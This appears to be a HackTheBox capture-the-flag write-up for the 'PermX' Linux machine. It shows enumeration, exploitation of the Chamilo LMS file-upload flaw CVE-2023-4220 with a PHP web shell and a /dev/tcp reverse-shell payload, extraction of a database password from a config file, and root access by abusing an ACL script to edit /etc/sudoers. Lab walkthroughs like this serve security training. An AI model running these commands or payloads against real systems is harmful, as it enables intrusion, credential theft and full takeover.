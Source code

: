 ```yaml
---

layout: post
title: "Exploiting File Upload and Privilege Escalation in PermX"
author: "0x5t"
catalog: true
header-img: "img/post-bg-digital-native.jpg"
header-mask: 0.4
tags:

- Web Exploitation
- File Upload
- Privilege Escalation
- HackTheBox

---
```


# PermX Writeup

## Overview
**Machine Name:** PermX  
**Date:** 24th October 2024  
**Difficulty:** Easy  

## Synopsis
PermX is an Easy difficulty Linux machine featuring a learning management system vulnerable to unrestricted file uploads via **CVE-2023-4220**. This vulnerability is leveraged to gain a foothold on the machine. Enumerating the machine reveals credentials that lead to **SSH access**. A **sudo misconfiguration** is then exploited to gain a root shell.

## Skills Required
- Linux Command Line
- Web Enumeration

## Skills Learned
- Linux Enumeration
- Sudo Exploitation

---

## Enumeration
### **Nmap Scan**
Scanning the target with **Nmap** reveals two open TCP ports:
- **Port 22**: SSH (OpenSSH 8.9p1 Ubuntu)
- **Port 80**: Apache web server

```bash
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.23 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.11.23
```

Output:
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu
80/tcp  open  http    Apache/2.4.52
```
To access the web server, add the domain to the **hosts file**:
```bash
echo "10.10.11.23  permx.htb" | sudo tee -a /etc/hosts
```

### **Subdomain Enumeration**
Using **ffuf** to enumerate subdomains:
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt \
-H "Host: FUZZ.permx.htb" -u http://permx.htb -t 200 -ic
```

Identified subdomains:
- `www.permx.htb`
- `lms.permx.htb`

Adding the LMS subdomain to `/etc/hosts`:
```bash
echo "10.10.11.23  lms.permx.htb" | sudo tee -a /etc/hosts
```

---

## Exploitation
### **CVE-2023-4220 - Unrestricted File Upload**
Chamilo LMS is vulnerable to **unauthenticated file upload**.

Creating a **PHP web shell**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
Uploading the web shell:
```bash
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
Verifying execution:
```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
```
Expected output:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### **Reverse Shell**
Starting a **Netcat listener**:
```bash
nc -lnvp {{PORT}}
```
Creating and uploading a **reverse shell payload**:
```bash
echo '<?php system("bash -c \'bash -i >& /dev/tcp/{{IP}}/{{PORT}} 0>&1\'"); ?>' > rev.php
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
Triggering the reverse shell:
```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
```
Successful connection on **Netcat listener**:
```
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.23] 39022
```

### **Obtaining User Credentials**
Dumping the **Chamilo configuration file**:
```bash
cat /var/www/chamilo/app/config/configuration.php
```
Extracted credentials:
```
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```
Using these credentials to SSH into the server:
```bash
ssh mtz@permx.htb
```
Obtaining the **user flag**:
```bash
cat user.txt
```

---

## Privilege Escalation
### **Sudo Misconfiguration**
Checking sudo privileges:
```bash
sudo -l
```
Output:
```
User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
Inspecting **acl.sh**:
```bash
cat /opt/acl.sh
```
The script modifies file **ACLs** in `/home/mtz/` and allows arbitrary file access.

### **Exploiting ACL Misconfiguration**
Creating a **symbolic link** to `/etc/sudoers`:
```bash
ln -s /etc/sudoers /home/mtz/root
```
Granting write permissions via `acl.sh`:
```bash
sudo /opt/acl.sh mtz rw /home/mtz/root
```
Appending a **new sudo rule** to escalate privileges:
```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```
Getting a **root shell**:
```bash
sudo bash
```
Confirming root access:
```bash
id
```
Expected output:
```
uid=0(root) gid=0(root) groups=0(root)
```
Extracting the **root flag**:
```bash
cat /root/root.txt
```

---

## Conclusion
- **Gained foothold** using CVE-2023-4220 file upload vulnerability.
- **Escalated privileges** via a misconfigured ACL script.
- **Successfully rooted** the machine and obtained all required flags.

**Key Takeaways:**
- Always sanitize file uploads to prevent **RCE vulnerabilities**.
- Ensure **sudo permissions** do not allow unrestricted execution of scripts that manipulate system files.
- Enforce **least privilege principles** to reduce risk exposure.

**End of Writeup**
